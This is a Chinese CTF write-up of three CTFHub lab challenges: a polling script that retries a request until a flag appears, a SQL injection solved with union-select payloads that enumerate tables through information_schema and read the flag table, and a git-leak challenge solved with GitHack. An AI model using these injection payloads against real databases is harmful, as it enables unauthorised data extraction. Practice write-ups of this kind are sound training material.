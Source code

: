 ![image-20241111104610700](D:\ctf wp\40.2.assets\image-20241111104610700.png)

![image-20241111104644839](D:\ctf wp\40.2.assets\image-20241111104644839.png)

按提示守株待兔 抓包后一个数一直反复请求 ![image-20241111110429540](D:\ctf wp\40.2.assets\image-20241111110429540.png)

当前数字与下个数字一样时跳出flag

或者写脚本

```python
import requests
import re
url = 'http://xxx/index.php?num=22'
while True:
    try:
        r = requests.get(url)

        # 匹配平台flag格式
        flag = re.search(r'ctfhub\{.+\}', r.text).group()
    except AttributeError:
        print('未获取到flag！ 正在重试！')
    else:
        print(flag)
        break



```



## 69.injection

![image-20241111130440429](D:\ctf wp\40.2.assets\image-20241111130440429.png)![image-20241111130533929](D:\ctf wp\40.2.assets\image-20241111130533929.png)

1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() 

1 union select 1,group_concat(column_name) from information_schema.columns where table_name='flag' 

1 union select 1,flag from ctfhub.flag 

![image-20241111130805964](D:\ctf wp\40.2.assets\image-20241111130805964.png)

## 70.粗心的小李

最简单的git泄露题![image-20241111185414433](D:\ctf wp\40.2.assets\image-20241111185414433.png)

![image-20241111185438802](D:\ctf wp\40.2.assets\image-20241111185438802.png)

这时候打开GitHack路径中新增的文件夹（也就是输入的域名）里面有一个index.html，点开它（用浏览器打开）

里面有flag
